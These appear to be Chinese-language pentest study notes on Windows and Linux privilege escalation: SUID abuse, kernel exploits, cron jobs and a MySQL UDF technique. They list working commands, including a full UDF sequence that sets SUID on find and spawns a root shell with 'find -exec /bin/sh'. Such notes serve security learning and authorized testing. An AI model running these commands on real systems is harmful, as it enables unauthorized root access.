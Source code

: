 1.UDF提权知识点：(基于MYSQL调用命令执行函数)

数据库安装时用的是系统权限，数据库用户root执行sql的权限也是系统权限，所以只要猜解出root用户的密码，之后执行sql命令执行函数即可。



系统溢出漏洞提权

Win2012-烂土豆配合令牌窃取提权-Web权限
Win2012-DLL劫持提权应用配合MSF-Web权限
Win2012-不安全的服务权限配合MSF-本地权限
Win2012-不带引号服务路径配合MSF-Web,本地权限

#### Linux提权

信息收集脚本：LinEnum.sh、linuxprivchecker.py

给shell脚本执行权限：chmod +x  xxx.sh

信息收集非常重要，可以根据信息直接判断以下提权方式是否可行

漏洞探针：linux-exploit-suggester.sh、linux-exploit-suggester-2.pl(better)

SUID-->set User ID	（Web权限）

1.利用信息收集脚本，查看所有属主为root且具有SetUID权限的文件；2.手工命令: find / -user root -perm -4000 -print 2>/dev/null

	以下是一些可用于产生SHELL的程序：(执行以下程序的时候不管当前用户权限是什么，都会用system权限运行)
	nmap vim less more nano cp mv find
	通过执行以上程序的命令获得权限然后拼接我们想要执行的命令
	如：touch pentestlab
	find pentestlab -exec whoami  \;
	使用find命令在当前目录中查找名为pentestlab的文件，并对找到的文件执行whoami命令;反斜杠\的作用是用来转义分号;，确保分号被正确传递给-exec参数，而不被Shell解释为命令的结束符号。这样可以让find命令正确执行-exec参数后面的命令。

内核漏洞（本地权限或web）

```
提权过程：连接-获取可利用漏洞-下载或上传EXP(一般是C写的)-编译EXP-给权限执行-GG
这里要用到漏洞探针脚本
脏牛漏洞
```

python -c 'import pty; pty.spawn("/bin/bash")'	#python交互式伪终端

环境变量(本地)
计划任务(crontabs)不安全的定时任务

```
查看当前用户计划任务：crontab -l
```

第三方服务

```
mysql为例
进入数据库进行UDr导出
use mysql;
create table foo(line blob);
insert into foo values (load file('/tmp/1518.so'));
select * from foo into dumpfile
'/usr/lib/mysql/plugin/1518.so';
创建do_systemk函数调用
create function do_system returns integer soname '1518.so';
select  do_system('chmod u+s /usr/bin/find');#给find Suid的执行权限
#配合使用ind调用执行
touch xiaodi
find xiaodi -exec "whoami" \;
find xiaodi -exec "/bin/sh" \;
id
```
